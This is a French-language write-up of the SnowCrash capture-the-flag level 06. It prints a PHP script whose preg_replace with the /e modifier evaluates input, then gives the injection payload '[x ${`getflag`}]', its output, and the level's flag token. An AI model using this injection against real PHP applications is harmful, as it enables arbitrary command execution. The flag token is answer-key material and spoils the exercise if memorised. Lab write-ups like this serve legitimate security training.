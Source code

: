 # Level 06

## Étapes pour résoudre le challenge

1. **Fichiers initiaux :**

   En arrivant sur le niveau 06, nous trouvons deux fichiers : un exécutable `level06` et un fichier source non compilé `level06.php`.

2. **Examen du contenu de `level06.php` :**

   Nous commençons par examiner le contenu du fichier `level06.php` :

   ```bash
   cat level06.php
   ```

   **Sortie :**
   ```php
   #!/usr/bin/php
   <?php
   function y($m) { 
       $m = preg_replace("/\./", " x ", $m); 
       $m = preg_replace("/@/", " y", $m); 
       return $m; 
   }
   
   function x($y, $z) { 
       $a = file_get_contents($y); 
       $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
       $a = preg_replace("/\[/", "(", $a); 
       $a = preg_replace("/\]/", ")", $a); 
       return $a; 
   }
   
   $r = x($argv[1], $argv[2]); 
   print $r;
   ?>
   ```

3. **Analyse du script :**

   Le script `level06.php` fait les opérations suivantes :
   - Il prend deux arguments en ligne de commande (`$argv[1]` et `$argv[2]`).
   - Il lit le contenu du fichier spécifié par le premier argument (`$argv[1]`).
   - Il remplace les occurrences de `[x ...]` par `y("...")` en utilisant une expression régulière.
   - Il remplace les crochets `[` et `]` par des parenthèses `(` et `)`.
   - Enfin, il affiche le résultat.

4. **Préparation de l'exploitation :**

   Nous allons créer un fichier temporaire dans `/tmp/` avec le contenu suivant pour exploiter la fonction `y` qui est appelée par la fonction `x` :

   ```bash
   echo '[x ${`getflag`}]' > /tmp/flag06
   ```

5. **Exécution du script :**

   Nous exécutons ensuite le script `level06.php` avec le fichier temporaire comme argument :

   ```bash
   ./level06 /tmp/flag06
   ```

   **Sortie :**
   ```bash
   level06@SnowCrash:~$ ./level06 /tmp/flag06
   PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
   in /home/user/level06/level06.php(4) : regexp code on line 1
   ```

   Nous obtenons notre flag : `wiok45aaoguiboiki2tuin6ub`.

6. **Connexion avec le flag :**

   Nous utilisons le flag pour nous connecter au niveau suivant :

   ```bash
   su flag07
   ```

## Résumé

Pour résoudre ce challenge, nous avons exploité une vulnérabilité dans le script PHP en utilisant des expressions régulières pour exécuter une commande arbitraire. En insérant une commande `getflag` dans le fichier d'entrée, nous avons pu obtenir le flag.

Le flag pour `level06` est : `wiok45aaoguiboiki2tuin6ub`.
